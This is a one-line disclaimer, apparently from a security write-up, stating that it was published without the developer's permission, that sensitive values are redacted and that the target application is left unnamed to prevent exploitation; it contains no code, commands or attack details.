Writeup published without developer permission. All sensitive values redacted. Target application not identified to prevent third-party exploitation.
